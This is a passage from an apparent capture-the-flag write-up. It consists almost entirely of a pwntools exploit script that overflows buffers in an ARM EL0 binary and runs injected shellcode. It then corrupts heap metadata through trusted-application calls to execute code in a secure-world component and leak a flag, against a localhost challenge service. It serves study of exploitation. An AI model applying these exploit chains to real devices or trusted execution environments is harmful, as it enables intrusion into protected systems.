    pl += p64(elf.symbols["gets"])
    save_key(1, pl)
    pl = b"a" * 0x120
    pl += make_64_shellcode(assembly)
    assert len(pl) <= 0x1000
    p.sendline(pl)

    pl = b"a" * (1 + 4)
    pl += b"\x00" * (0x100 - len(pl))
    pl += p64(elf.symbols["main"] + 0x44)
    pl += p64(elf.symbols["mprotect"])
    save_key(0x1000, pl)

    load_key(1)

    pl = b"a" * 0x100
    pl += p64(EL0_RET)
    pl += p64(elf.symbols["gets"])
    pl += p64(DUMMY_VALUE)
    pl += p64(EL0_SFP_IN_RUN - 0x30)
    save_key(1, pl)
    pl = p64(EL0_STACK_LOW + 0x100)
    pl += p64(EL0_BUF + 0x120)
    p.sendline(pl)


def sel0_arbitrary_code_execute(
    sel0_assem: str | bytes, el0_assem: str = ""
) -> None:
    SEL_WSM_ADDR = 0x2400000 - 0x2000
    TCI_BUF = 0x7FFEFFFFE000
    TCI_HANDLE = 0x23FE000

    def tc_tci_call(cmd: int, index: int, size: int, data: bytes) -> str:
        assert b"\n" not in data

        assem = f"""
        movz x1, #{hex(elf.symbols['gets'] & 0xFFFF)};\n
        movk x1, #{hex((elf.symbols['gets'] >> 16) & 0xFFFF)}, LSL #16;\n
        add x0, x28, #0x0C;\n
        blr x1;\n
        
        movz x0, #{hex(cmd)};\n
        str w0, [x28, #0];\n
        
        movz x0, #{hex(index)};\n
        str w0, [x28, #4];\n
        
        movz x0, #{hex(size&0xFFFF)};\n
        """
        if size > 0xFFFF:
            assem += f"""
            movk x0, #{hex(size>>16)}, LSL #16;\n
            """
        assem += f"""
        str w0, [x28, #8];\n
        
        movz x3, #{hex(elf.symbols['tc_tci_call'] & 0xFFFF)};\n
        movk x3, #{hex((elf.symbols['tc_tci_call'] >> 16) & 0xFFFF)}, LSL #16;\n
        movz x0, #{hex(TCI_HANDLE&0xFFFF)};\n
        movk x0, #{hex(TCI_HANDLE>>16)}, LSL #16;\n
        blr x3;\n
        """

        tc_tci_call.data += data + b"\n"
        return assem

    def tc_tci_call_flush() -> None:
        p.send(tc_tci_call.data)

    tc_tci_call.data = b""

    def asm_load_key(index: int) -> str:
        return tc_tci_call(2, index, 0, b"")

    def asm_save_key(index: int, size: int, data: bytes) -> str:
        return tc_tci_call(3, index, size, data)

    pl = b""
    pl += b"a" * 0x18

    pl += p32(0x20)  # prev_size
    pl += p32(0x21)  # size
    pl += b"a" * 0x18

    pl += p32(0x20)  # prev_size
    pl += p32(0x21)  # size
    pl += p32(0x10AE - 12)
    pl += p32(0xD6F241)
    pl += b"a" * 0x10

    pl += p32(0x20)  # prev_size
    pl += p32(0x30)  # size
    pl += b"a" * 0x28

    pl += p32(0)  # prev_size
    pl += p32(0x31)  # size

    if isinstance(sel0_assem, str):
        sel0_shellcode = make_thumb_shellcode(sel0_assem)
    else:
        sel0_shellcode = sel0_assem
    assert b"\n" not in sel0_shellcode and len(sel0_shellcode) <= 0x400
    pl += sel0_shellcode

    el0_arbitrary_code_execute(
        f"""
        ldr x28, ={hex(TCI_BUF)};\n
        
        {asm_save_key(2, 0x10, b'')}
        {asm_save_key(3, 0x10, b'')}
        {asm_save_key(4, 0x10, b'')}
        
        {asm_save_key(4, 0x20, b'')}
        {asm_save_key(2, 0x400, b'')}
        
        {asm_save_key(5, 0xFFFFFFF0, pl)}
        
        {asm_save_key(6, 0x10, b'')}
        
        {asm_load_key(2)}
        """
        + el0_assem
    )

    tc_tci_call_flush()


def sel0_get_flag_assembly() -> str:
    SEL_WSM_ADDR = 0x2400000 - 0x2000

    assem = f"""
    movw r0, #{hex(SEL_WSM_ADDR&0xFFFF)};\n
    movt r0, #{hex((SEL_WSM_ADDR>>16)&0xFFFF)};\n
    mov r2, r0;\n
    """

    for i in range(8):
        assem += f"""
        mrc p15, 3, r1, c15, c12, {i};\n
        str r1, [r0], #4;\n
        """
    assem += """
    mov r1, #0x0009;\n
    add r1, r1, 1;\n
    str r1, [r0], #4;\n
    
    svc #0x00;
    """

    return assem


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
elf = ELF("./el0")

SEL_WSM_ADDR = 0x2400000 - 0x2000
TCI_BUF = 0x7FFEFFFFE000
sel0_arbitrary_code_execute(
    sel0_get_flag_assembly(),
    f"""
    ldr x28, ={hex(TCI_BUF)};\n
    movz x3, #{hex(elf.symbols['puts'] & 0xFFFF)};\n
    movk x3, #{hex((elf.symbols['puts']>>16) & 0xFFFF)}, LSL #16;\n
    mov x0, x28;\n
    blr x3;\n
    """,
)
# b *0x7FFEFFFFD120

FLAG = p.recvline()
print(f"Flag: {FLAG.decode()}")

p.close()
```

# Reference

- <https://developer.arm.com/documentation/ddi0487/latest/>
